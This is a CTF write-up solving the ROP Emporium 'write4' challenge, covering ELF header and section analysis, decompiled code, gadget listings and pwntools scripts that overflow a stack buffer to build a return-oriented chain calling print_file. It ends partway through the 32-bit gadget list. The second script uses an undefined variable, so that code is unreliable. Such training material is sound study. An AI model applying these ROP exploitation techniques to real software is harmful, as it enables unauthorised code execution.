





## write

Let's run `file` and `checksec` on the binary.

```
$ file write4 
write4: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=4cbaee0791e9daa7dcc909399291b57ffaf4ecbe, not stripped
```

```
$ checksec write4
[*] '/home/hwkim301/ropemporium/write4/write4'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
```

A shared object is given as well.

```
$ file libwrite4.so 
libwrite4.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=6480d05c301d646a5677805e7226e81b35c23f7d, not stripped
```

Shared libraries are position-independent by default. 

```
$ checksec libwrite4.so
[*] '/home/hwkim301/ropemporium/write4/libwrite4.so'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

How does `file` know whether or not the `ELF` file is an executable or a shared object? 

Well, you can run `readelf -h` on the executable and the share object. 





`readelf` tells you that an executable is an `EXEC` and a shared object is a `DYN`.

It still probably has to parse the actual bytes from the `ELF` file and determine from that byte whether it's going to be a `EXEC` or `DYN`.

According to [wikipedia](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format), the decision is made by the `e_type`. 

[e_type](e_type.png)

Someone on [stackoverflow](https://stackoverflow.com/questions/34519521/why-does-gcc-create-a-shared-object-instead-of-an-executable-binary-according-to/34522357#34522357) had the exact same question as I did 10 years ago. 

`write4` has to have an `e_type` of `0x02` since it's an executable.

On the other hand, the `e_type` for `libwrite4.so` will be `0x03`.

Is there a way I could actually parse the raw bytes? 

To do so you'll have to use either `xxd` or `hexdump` to view the raw bytes.

Gemini, told me that using `xxd -g -2 -l 18` would show the raw bytes.

Here's the man page for the `-g -2 -l 18` flag.

```bash 
-g bytes | -groupsize bytes
              Separate  the output of every <bytes> bytes (two hex characters or eight bit digits each) by a whitespace.  Specify -g 0 to suppress grouping.  <Bytes> defaults to 2 in nor‐
              mal mode, 4 in little-endian mode and 1 in bits mode.  Grouping does not apply to PostScript or include style.

-l len | -len len
              Stop after writing <len> octets.
```

`xxd -g -2 -l 18` will show the first `18` bytes of the `ELF` files respectively, printing them by in groups of `2` bytes.

```bash 
$ xxd -g -2 -l 18 write4 
00000000: 7f45 4c46 0201 0100 0000 0000 0000 0000  .ELF............
00000010: 0200                                 
```

```bash 
$ xxd -g -2 -l 18 libwrite4.so 
00000000: 7f45 4c46 0201 0100 0000 0000 0000 0000  .ELF............
00000010: 0300                                     ..
```

You can see for yourself that at the end there's the bytes are respectfully `0200` and `0300` at sixteenth~seventeenth byte.

The bytes in the `ELF` files seem to be 0-indexed.

This used to be the true until `ELF` files weren't compiled by `-pie` in gcc.

From Ubuntu 16.10 and later on programs are compiled with the `-fPIE, -pie` flag by [default](https://documentation.ubuntu.com/security/security-features/process-memory/compiler-flags/).

Run `gcc -v` to see the default flags enabled on your system. 

Here's mine on Ubuntu 24.04.4 LTS.

```
$ gcc -v
Using built-in specs.
COLLECT_GCC=gcc
COLLECT_LTO_WRAPPER=/usr/libexec/gcc/x86_64-linux-gnu/13/lto-wrapper
OFFLOAD_TARGET_NAMES=nvptx-none:amdgcn-amdhsa
OFFLOAD_TARGET_DEFAULT=1
Target: x86_64-linux-gnu
Configured with: ../src/configure -v --with-pkgversion='Ubuntu 13.3.0-6ubuntu2~24.04.1' --with-bugurl=file:///usr/share/doc/gcc-13/README.Bugs --enable-languages=c,ada,c++,go,d,fortran,objc,obj-c++,m2 --prefix=/usr --with-gcc-major-version-only --program-suffix=-13 --program-prefix=x86_64-linux-gnu- --enable-shared --enable-linker-build-id --libexecdir=/usr/libexec --without-included-gettext --enable-threads=posix --libdir=/usr/lib --enable-nls --enable-bootstrap --enable-clocale=gnu --enable-libstdcxx-debug --enable-libstdcxx-time=yes --with-default-libstdcxx-abi=new --enable-libstdcxx-backtrace --enable-gnu-unique-object --disable-vtable-verify --enable-plugin --enable-default-pie --with-system-zlib --enable-libphobos-checking=release --with-target-system-zlib=auto --enable-objc-gc=auto --enable-multiarch --disable-werror --enable-cet --with-arch-32=i686 --with-abi=m64 --with-multilib-list=m32,m64,mx32 --enable-multilib --with-tune=generic --enable-offload-targets=nvptx-none=/build/gcc-13-EldibY/gcc-13-13.3.0/debian/tmp-nvptx/usr,amdgcn-amdhsa=/build/gcc-13-EldibY/gcc-13-13.3.0/debian/tmp-gcn/usr --enable-offload-defaulted --without-cuda-driver --enable-checking=release --build=x86_64-linux-gnu --host=x86_64-linux-gnu --target=x86_64-linux-gnu --with-build-config=bootstrap-lto-lean --enable-link-serialization=2
Thread model: posix
Supported LTO compression algorithms: zlib zstd
gcc version 13.3.0 (Ubuntu 13.3.0-6ubuntu2~24.04.1) 
```

You can see for yourself that pie is enabled by default with the `--enable-default-pie` flag. 

Now that all binaries are compiled with pie by default, not only the shared objects, but executables are  `ET_DYN`.

For executables it will be `DYN (Position-Independent Executable file)` and for shared objects it will be 

`DYN (Shared object file)`. 

Thus you can't just rely on the `e_type` to tell whether or not it's a binary or a library. 

Employed Russian has an explanation about this on [stackoverflow](https://stackoverflow.com/questions/16302575/distinguish-shared-objects-from-position-independent-executables/16351525).

But for now, we won't dig into `PIE` executables.

Luckily for us the challenges in ropemporium don't have `pie` enabled. 

Let's load the binary to `ghidra`.

The `main` function is a bit different from the previous levels. 

```c
undefined8 main(void)
{
  pwnme();
  return 0;
}
```

The `pwnme` function does exist, but it seems to corrupted. 

```c
void pwnme(void)
{
                      /* WARNING: Bad instruction - Truncating control flow here */
  halt_baddata();
}
```

There's a `usefulFunction`,  however it doesn't look like it does anything meaningful. 

```c
void usefulFunction(void)
{
  print_file("nonexistent");
  return;
}
```

There aren't any other functions worth checking in the binary, so let's load the shared object file. 

Aha, here's the `pwnme` function that we were looking for.

```c
void pwnme(void)
{
  undefined1 local_28 [32];
  
  setvbuf(_stdout,(char *)0x0,2,0);
  puts("write4 by ROP Emporium");
  puts("x86_64\n");
  memset(local_28,0,0x20);
  puts("Go ahead and give me the input already!\n");
  printf("> ");
  read(0,local_28,0x200);
  puts("Thank you!");
  return;
}
```

The `print_file` function seems to print the flag. 

```c
void print_file(char *param_1)
{
  char local_38 [40];
  FILE *local_10;
  
  local_10 = (FILE *)0x0;
  local_10 = fopen(param_1,"r");
  if (local_10 == (FILE *)0x0) {
    printf("Failed to open file: %s\n",param_1);
                      /* WARNING: Subroutine does not return */
    exit(1);
  }
  fgets(local_38,0x21,local_10);
  puts(local_38);
  fclose(local_10);
  return;
}
```

According to the ropemporium  website, we can manipulate the `mov [reg] reg` instruction to write the flag in the `ELF` file. 

```
$ ROPgadget --binary write4 
Gadgets information
============================================================
0x000000000040057e : adc byte ptr [rax], ah ; jmp rax
0x0000000000400502 : adc cl, byte ptr [rbx] ; and byte ptr [rax], al ; push 0 ; jmp 0x4004f0
0x0000000000400549 : add ah, dh ; nop dword ptr [rax + rax] ; repz ret
0x000000000040061e : add al, bpl ; jmp 0x400621
0x000000000040061f : add al, ch ; jmp 0x400621
0x000000000040054f : add bl, dh ; ret
0x000000000040069d : add byte ptr [rax], al ; add bl, dh ; ret
0x000000000040069b : add byte ptr [rax], al ; add byte ptr [rax], al ; add bl, dh ; ret
0x0000000000400507 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x4004f0
0x0000000000400611 : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x00000000004005fc : add byte ptr [rax], al ; add byte ptr [rax], al ; push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x400590
0x000000000040069c : add byte ptr [rax], al ; add byte ptr [rax], al ; repz ret
0x00000000004005fd : add byte ptr [rax], al ; add byte ptr [rbp + 0x48], dl ; mov ebp, esp ; pop rbp ; jmp 0x400590
0x0000000000400509 : add byte ptr [rax], al ; jmp 0x4004f0
0x0000000000400586 : add byte ptr [rax], al ; pop rbp ; ret
0x00000000004005fe : add byte ptr [rax], al ; push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x400590
0x000000000040054e : add byte ptr [rax], al ; repz ret
0x0000000000400585 : add byte ptr [rax], r8b ; pop rbp ; ret
0x000000000040054d : add byte ptr [rax], r8b ; repz ret
0x00000000004005ff : add byte ptr [rbp + 0x48], dl ; mov ebp, esp ; pop rbp ; jmp 0x400590
0x00000000004005e7 : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000400517 : add dword ptr [rax], eax ; add byte ptr [rax], al ; jmp 0x4004f0
0x00000000004005e8 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; repz ret
0x00000000004004e3 : add esp, 8 ; ret
0x00000000004004e2 : add rsp, 8 ; ret
0x0000000000400548 : and byte ptr [rax], al ; hlt ; nop dword ptr [rax + rax] ; repz ret
0x0000000000400504 : and byte ptr [rax], al ; push 0 ; jmp 0x4004f0
0x0000000000400514 : and byte ptr [rax], al ; push 1 ; jmp 0x4004f0
0x00000000004004d9 : and byte ptr [rax], al ; test rax, rax ; je 0x4004e2 ; call rax
0x00000000004006ff : call qword ptr [rax + 1]
0x0000000000400624 : call qword ptr [rax - 0x76b23ca3]
0x0000000000400793 : call qword ptr [rax]
0x00000000004007b3 : call qword ptr [rcx]
0x00000000004004e0 : call rax
0x000000000040067c : fmul qword ptr [rax - 0x7d] ; ret
0x000000000040054a : hlt ; nop dword ptr [rax + rax] ; repz ret
0x0000000000400603 : in eax, 0x5d ; jmp 0x400590
0x000000000040061a : in eax, 0xbf ; mov ah, 6 ; add al, bpl ; jmp 0x400621
0x00000000004004de : je 0x4004e2 ; call rax
0x0000000000400579 : je 0x400588 ; pop rbp ; mov edi, 0x601038 ; jmp rax
0x00000000004005bb : je 0x4005c8 ; pop rbp ; mov edi, 0x601038 ; jmp rax
0x00000000004002cc : jmp 0x4002a1
0x000000000040050b : jmp 0x4004f0
0x0000000000400605 : jmp 0x400590
0x0000000000400621 : jmp 0x400621
0x0000000000400289 : jmp 0xffffffffca1caa68
0x00000000004006cf : jmp qword ptr [rax + 0x60000000]
0x00000000004006d7 : jmp qword ptr [rax]
0x00000000004007d3 : jmp qword ptr [rbp]
0x0000000000400581 : jmp rax
0x000000000040061c : mov ah, 6 ; add al, bpl ; jmp 0x400621
0x00000000004005e2 : mov byte ptr [rip + 0x200a4f], 1 ; pop rbp ; ret
0x0000000000400629 : mov dword ptr [rsi], edi ; ret
0x0000000000400610 : mov eax, 0 ; pop rbp ; ret
0x0000000000400602 : mov ebp, esp ; pop rbp ; jmp 0x400590
0x000000000040057c : mov edi, 0x601038 ; jmp rax
0x0000000000400628 : mov qword ptr [r14], r15 ; ret
0x0000000000400601 : mov rbp, rsp ; pop rbp ; jmp 0x400590
0x0000000000400625 : nop ; pop rbp ; ret
0x0000000000400583 : nop dword ptr [rax + rax] ; pop rbp ; ret
0x000000000040054b : nop dword ptr [rax + rax] ; repz ret
0x00000000004005c5 : nop dword ptr [rax] ; pop rbp ; ret
0x00000000004005e5 : or ah, byte ptr [rax] ; add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000400512 : or cl, byte ptr [rbx] ; and byte ptr [rax], al ; push 1 ; jmp 0x4004f0
0x00000000004005e4 : or r12b, byte ptr [r8] ; add byte ptr [rcx], al ; pop rbp ; ret
0x000000000040068c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400690 : pop r14 ; pop r15 ; ret
0x0000000000400692 : pop r15 ; ret
0x0000000000400604 : pop rbp ; jmp 0x400590
0x000000000040057b : pop rbp ; mov edi, 0x601038 ; jmp rax
0x000000000040068b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400588 : pop rbp ; ret
0x0000000000400693 : pop rdi ; ret
0x0000000000400691 : pop rsi ; pop r15 ; ret
0x000000000040068d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400506 : push 0 ; jmp 0x4004f0
0x0000000000400516 : push 1 ; jmp 0x4004f0
0x0000000000400600 : push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x400590
0x0000000000400550 : repz ret
0x00000000004004e6 : ret
0x00000000004004dd : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x00000000004004d7 : sbb eax, 0x4800200b ; test eax, eax ; je 0x4004e2 ; call rax
0x00000000004006a5 : sub esp, 8 ; add rsp, 8 ; ret
0x00000000004006a4 : sub rsp, 8 ; add rsp, 8 ; ret
0x000000000040069a : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; repz ret
0x00000000004004dc : test eax, eax ; je 0x4004e2 ; call rax
0x00000000004004db : test rax, rax ; je 0x4004e2 ; call rax
0x0000000000400288 : xchg ecx, eax ; jmp 0xffffffffca1caa68

Unique gadgets found: 90
```

Which gadgets should we use? 

After searching for some writeups online, these are the two gadgets that we must use. 

```
0x0000000000400628 : mov qword ptr [r14], r15 ; ret
0x0000000000400690 : pop r14 ; pop r15 ; ret
```

Here's the exploit code. 

It looks a bit intimidating, but let's go through it line by line. 

```python 
from pwn import *

p = process('./write4')
e = ELF('./write4')
r = ROP(e)

pop_r14_r15_ret = 0x400690
mov_r14_r15_ret = 0x400628

payload = b'A' * 40
payload += p64(pop_r14_r15_ret)
payload += p64(e.bss())
payload += b'flag.txt'
payload += p64(mov_r14_r15_ret)
payload += p64(r.find_gadget(['pop rdi']).address)
payload += p64(e.bss())
payload += p64(e.symbols['print_file'])
p.send(payload)
p.interactive()
```

First send dummy bytes until you reach the saved frame pointer. 

`pop r14 ; pop r15 ; ret`, will pop the value off the top of the stack and save it to the `r14` register.

Then it will pop another value of the top of the stack, save it to `r15` and will continue program execution.

We will pass the executable's `bss` address to `r14` and a bytes object `flag.txt` to `r15`.

What is the `bss`?

The [.bss](https://en.wikipedia.org/wiki/.bss) section is a section in `ELF` files.

Here's what the man page says (man elf).

The `.bss` section stores data that's uninitialized with `0`s when the program starts to run. 



Okay, but why do we need to use the `.bss` section? 

Well remember this gadget? `mov qword ptr [r14], r15 ; ret`.

Right after `pop r14 ; pop r15 ; ret` executes? 

If we pass the address of `.bss` and `flag.txt`.

`r14` will store the address of `.bss` and `r15` stores `flag.txt`.

Next, `mov qword ptr [r14], r15 ; ret` will store `flag.txt` at the address of `r14`.

Then, we will be able to call `print_file(flag.txt)`.

I've tried modifying the code above using pwntools' `ROP` class, but the `ROP` class couldn't find `mov qword ptr [r14], r15 ; ret`.

I guess the only way was to hardcode the address.

[Other writeups](https://hackmd.io/@Broder/RopEmporium#Write4) seem to use the `.data` section.

What's the [.data](https://en.wikipedia.org/wiki/Data_segment) section? 

Let's check `man elf` again. 



To summarize the, `.bss` stores uninitialized data in the `ELF` file and `.data` saves the initialized data.

But why did we need to use `.bss` or `.data` to save `flag.txt`?

Use `readelf -S` to check each section of the `ELF` file. 

```
$ readelf -S write4 
There are 29 section headers, starting at offset 0x1980:

Section Headers:
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
  [ 0]                   NULL             0000000000000000  00000000
       0000000000000000  0000000000000000           0     0     0
  [ 1] .interp           PROGBITS         0000000000400238  00000238
       000000000000001c  0000000000000000   A       0     0     1
  [ 2] .note.ABI-tag     NOTE             0000000000400254  00000254
       0000000000000020  0000000000000000   A       0     0     4
  [ 3] .note.gnu.bu[...] NOTE             0000000000400274  00000274
       0000000000000024  0000000000000000   A       0     0     4
  [ 4] .gnu.hash         GNU_HASH         0000000000400298  00000298
       0000000000000038  0000000000000000   A       5     0     8
  [ 5] .dynsym           DYNSYM           00000000004002d0  000002d0
       00000000000000f0  0000000000000018   A       6     1     8
  [ 6] .dynstr           STRTAB           00000000004003c0  000003c0
       000000000000007c  0000000000000000   A       0     0     1
  [ 7] .gnu.version      VERSYM           000000000040043c  0000043c
       0000000000000014  0000000000000002   A       5     0     2
  [ 8] .gnu.version_r    VERNEED          0000000000400450  00000450
       0000000000000020  0000000000000000   A       6     1     8
  [ 9] .rela.dyn         RELA             0000000000400470  00000470
       0000000000000030  0000000000000018   A       5     0     8
  [10] .rela.plt         RELA             00000000004004a0  000004a0
       0000000000000030  0000000000000018  AI       5    22     8
  [11] .init             PROGBITS         00000000004004d0  000004d0
       0000000000000017  0000000000000000  AX       0     0     4
  [12] .plt              PROGBITS         00000000004004f0  000004f0
       0000000000000030  0000000000000010  AX       0     0     16
  [13] .text             PROGBITS         0000000000400520  00000520
       0000000000000182  0000000000000000  AX       0     0     16
  [14] .fini             PROGBITS         00000000004006a4  000006a4
       0000000000000009  0000000000000000  AX       0     0     4
  [15] .rodata           PROGBITS         00000000004006b0  000006b0
       0000000000000010  0000000000000000   A       0     0     4
  [16] .eh_frame_hdr     PROGBITS         00000000004006c0  000006c0
       0000000000000044  0000000000000000   A       0     0     4
  [17] .eh_frame         PROGBITS         0000000000400708  00000708
       0000000000000120  0000000000000000   A       0     0     8
  [18] .init_array       INIT_ARRAY       0000000000600df0  00000df0
       0000000000000008  0000000000000008  WA       0     0     8
  [19] .fini_array       FINI_ARRAY       0000000000600df8  00000df8
       0000000000000008  0000000000000008  WA       0     0     8
  [20] .dynamic          DYNAMIC          0000000000600e00  00000e00
       00000000000001f0  0000000000000010  WA       6     0     8
  [21] .got              PROGBITS         0000000000600ff0  00000ff0
       0000000000000010  0000000000000008  WA       0     0     8
  [22] .got.plt          PROGBITS         0000000000601000  00001000
       0000000000000028  0000000000000008  WA       0     0     8
  [23] .data             PROGBITS         0000000000601028  00001028
       0000000000000010  0000000000000000  WA       0     0     8
  [24] .bss              NOBITS           0000000000601038  00001038
       0000000000000008  0000000000000000  WA       0     0     1
  [25] .comment          PROGBITS         0000000000000000  00001038
       0000000000000029  0000000000000001  MS       0     0     1
  [26] .symtab           SYMTAB           0000000000000000  00001068
       0000000000000618  0000000000000018          27    46     8
  [27] .strtab           STRTAB           0000000000000000  00001680
       00000000000001f6  0000000000000000           0     0     1
  [28] .shstrtab         STRTAB           0000000000000000  00001876
       0000000000000103  0000000000000000           0     0     1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  D (mbind), l (large), p (processor specific)
```

The reason why people chose the `.bss` or `.data` section is because it's one of the few section where you have privilege to write. 



You might also ask again, that `.init_array`, `.fini_array`, `.dynamic`, `.got`, `.got.plt` all have access to write.

That's correct, but those sections are closely related to program initialization and the dynamic linker/loader.

In conclusion, writing bytes somewhere else other than the `.bss` or `.data` isn't ideal. 

```python 
from pwn import *

p = process('./write4')
e = ELF('./write4')
r= ROP(e)

r.raw(b'A'*40)
r.raw(rop.find_gadget(['pop r14','pop r15','ret']).address)
r.raw(e.bss())
r.raw(b'flag.txt')
r.raw(mov_r14_r15_ret)
r.raw(rop.find_gadget(['pop rdi']).address)
r.raw(e.bss())
r.call(e.symbols['print_file'])
p.send(rop.chain())
p.interactive()
```

## write432

Let's run `file` and `checksec`.

```
$ file write432
write432: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=7142f5deace762a46e5cc43b6ca7e8818c9abe69, not stripped
```

```
$ checksec write432
[*] '/home/hwkim301/ropemporium/write4/write432'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    RUNPATH:    b'.'
    Stripped:   No
```

Load `libwrite432.so` into ghidra since the executable calls functions from the shared library. 

Here's the `pwnme` function. 

```c
void pwnme(void)
{
  undefined1 local_2c [36];
  
  setvbuf(_stdout,(char *)0x0,2,0);
  puts("write4 by ROP Emporium");
  puts("x86\n");
  memset(local_2c,0,0x20);
  puts("Go ahead and give me the input already!\n");
  printf("> ");
  read(0,local_2c,0x200);
  puts("Thank you!");
  return;
}
```

Run `ROPgadget` to find the necessary gadgets.

```
$ ROPgadget --binary write432 
Gadgets information
============================================================
0x08048709 : adc al, 0x41 ; ret
0x080483d2 : adc al, 0xa0 ; add al, 8 ; push 0x10 ; jmp 0x80483a0
0x0804853f : adc byte ptr [eax + 0x2f89c3c9], dl ; ret
0x080483d7 : adc byte ptr [eax], al ; add byte ptr [eax], al ; jmp 0x80483a0
0x08048474 : adc cl, cl ; ret
0x0804840e : adc dword ptr [eax - 0x1b], -1 ; call dword ptr [eax + 0x51]
0x08048523 : add al, 0x59 ; pop ebp ; lea esp, [ecx - 4] ; ret
0x080484e8 : add al, 8 ; add ecx, ecx ; ret
0x0804846e : add al, 8 ; call eax
0x080484bb : add al, 8 ; call edx
0x080483b4 : add al, 8 ; push 0 ; jmp 0x80483a0
0x080483d4 : add al, 8 ; push 0x10 ; jmp 0x80483a0
0x080483c4 : add al, 8 ; push 8 ; jmp 0x80483a0
0x0804847f : add bl, dh ; ret
0x08048402 : add byte ptr [eax + eax], bl ; add byte ptr [ebp - 0x1a4f7d], cl ; call dword ptr [eax - 0x73]
0x0804847d : add byte ptr [eax], al ; add bl, dh ; ret
0x080483b7 : add byte ptr [eax], al ; add byte ptr [eax], al ; jmp 0x80483a0
0x080484fc : add byte ptr [eax], al ; add byte ptr [eax], al ; push ebp ; mov ebp, esp ; pop ebp ; jmp 0x8048490
0x0804847c : add byte ptr [eax], al ; add byte ptr [eax], al ; repz ret
0x080484fd : add byte ptr [eax], al ; add byte ptr [ebp - 0x77], dl ; in eax, 0x5d ; jmp 0x8048490
0x08048398 : add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x080483b9 : add byte ptr [eax], al ; jmp 0x80483a0
0x080484fe : add byte ptr [eax], al ; push ebp ; mov ebp, esp ; pop ebp ; jmp 0x8048490
0x0804847e : add byte ptr [eax], al ; repz ret
0x08048405 : add byte ptr [ebp - 0x1a4f7d], cl ; call dword ptr [eax - 0x73]
0x080484ff : add byte ptr [ebp - 0x77], dl ; in eax, 0x5d ; jmp 0x8048490
0x08048520 : add byte ptr [ebx + 0x5d5904c4], al ; lea esp, [ecx - 4] ; ret
0x080484e5 : add eax, 0x804a020 ; add ecx, ecx ; ret
0x080484ea : add ecx, ecx ; ret
0x08048472 : add esp, 0x10 ; leave ; ret
0x0804853d : add esp, 0x10 ; nop ; leave ; ret
0x080485a5 : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08048521 : add esp, 4 ; pop ecx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x0804839a : add esp, 8 ; pop ebx ; ret
0x080484e6 : and byte ptr [eax - 0x36fef7fc], ah ; ret
0x08048706 : and byte ptr [edi + 0xe], al ; adc al, 0x41 ; ret
0x08048412 : call dword ptr [eax + 0x51]
0x0804840b : call dword ptr [eax - 0x73]
0x08048470 : call eax
0x080484bd : call edx
0x0804860b : call esp
0x08048528 : cld ; ret
0x080484fb : daa ; add byte ptr [eax], al ; add byte ptr [eax], al ; push ebp ; mov ebp, esp ; pop ebp ; jmp 0x8048490
0x0804847b : daa ; add byte ptr [eax], al ; add byte ptr [eax], al ; repz ret
0x08048544 : das ; ret
0x08048704 : dec ebp ; push cs ; and byte ptr [edi + 0xe], al ; adc al, 0x41 ; ret
0x08048422 : hlt ; mov ebx, dword ptr [esp] ; ret
0x0804837e : in al, dx ; or al, ch ; mov ebx, 0x81000000 ; ret
0x08048502 : in eax, 0x5d ; jmp 0x8048490
0x08048410 : in eax, 0xff ; call dword ptr [eax + 0x51]
0x08048409 : in eax, 0xff ; call dword ptr [eax - 0x73]
0x0804853c : inc dword ptr [ebx - 0x366fef3c] ; ret
0x0804870a : inc ecx ; ret
0x08048707 : inc edi ; push cs ; adc al, 0x41 ; ret
0x080484e3 : inc esi ; add eax, 0x804a020 ; add ecx, ecx ; ret
0x080481e2 : int1 ; push cs ; jmp 0x80481b9
0x080484ee : jbe 0x80484f0 ; repz ret
0x080485ae : jbe 0x80485b0 ; repz ret
0x080484c5 : je 0x80484ed ; add bl, dh ; ret
0x080485a4 : jecxz 0x8048529 ; les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x080481e4 : jmp 0x80481b9
0x080483bb : jmp 0x80483a0
0x08048504 : jmp 0x8048490
0x080485a3 : jne 0x8048588 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08048479 : lea edi, [edi] ; repz ret
0x080484c4 : lea esi, [esi] ; repz ret
0x08048526 : lea esp, [ecx - 4] ; ret
0x08048475 : leave ; ret
0x08048522 : les eax, ptr [ecx + ebx*2] ; pop ebp ; lea esp, [ecx - 4] ; ret
0x0804839b : les ecx, ptr [eax] ; pop ebx ; ret
0x080485a6 : les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x08048473 : les edx, ptr [eax] ; leave ; ret
